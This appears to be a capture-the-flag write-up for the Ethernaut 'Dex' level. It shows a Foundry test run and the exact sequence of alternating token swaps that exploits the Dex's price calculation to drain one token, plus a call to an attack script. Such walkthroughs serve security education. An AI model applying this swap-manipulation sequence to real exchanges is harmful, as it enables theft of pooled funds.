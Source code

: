 # Dex

[Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

<BR />

# Attack Test

The attack test  gives us the exact sequence of transfers necesary to perform the live attack.

```BASH
forge test -vv
```

```BASH
Token1 Supply:  110
Token2 Supply:  110
Token1 Player:  10
Token2 Player:  10
Swap Rate - Token1:Token2, 100: 100
Swap Rate - Token2:Token1, 100: 100
Swapping Token1->Token2:  10
=====================================================

Token1 Player:  0
Token2 Player:  20
Swap Rate - Token1:Token2, 100: 81
Swap Rate - Token2:Token1, 100: 122
Swapping Token2->Token1:  20
=====================================================

Token1 Player:  24
Token2 Player:  0
Swap Rate - Token1:Token2, 100: 127
Swap Rate - Token2:Token1, 100: 78
Swapping Token1->Token2:  24
=====================================================

Token1 Player:  0
Token2 Player:  30
Swap Rate - Token1:Token2, 100: 72
Swap Rate - Token2:Token1, 100: 137
Swapping Token2->Token1:  30
=====================================================

Token1 Player:  41
Token2 Player:  0
Swap Rate - Token1:Token2, 100: 159
Swap Rate - Token2:Token1, 100: 62
Swapping Token1->Token2:  41
=====================================================

Token1 Player:  0
Token2 Player:  65
Swap Rate - Token1:Token2, 100: 40
Swap Rate - Token2:Token1, 100: 244
Swapping Token2->Token1:  45
=====================================================

Token1 Player:  110
Token2 Player:  20

Test result: ok. 1 passed; 0 failed; finished in 2.09s
```

<BR />

# Live Attack

This is the required transfer summary:
```
Swapping Token1->Token2:  10
Swapping Token2->Token1:  20
Swapping Token1->Token2:  24
Swapping Token2->Token1:  30
Swapping Token1->Token2:  41
Swapping Token2->Token1:  45
```

```BASH
./attackDo.sh
```

<BR />

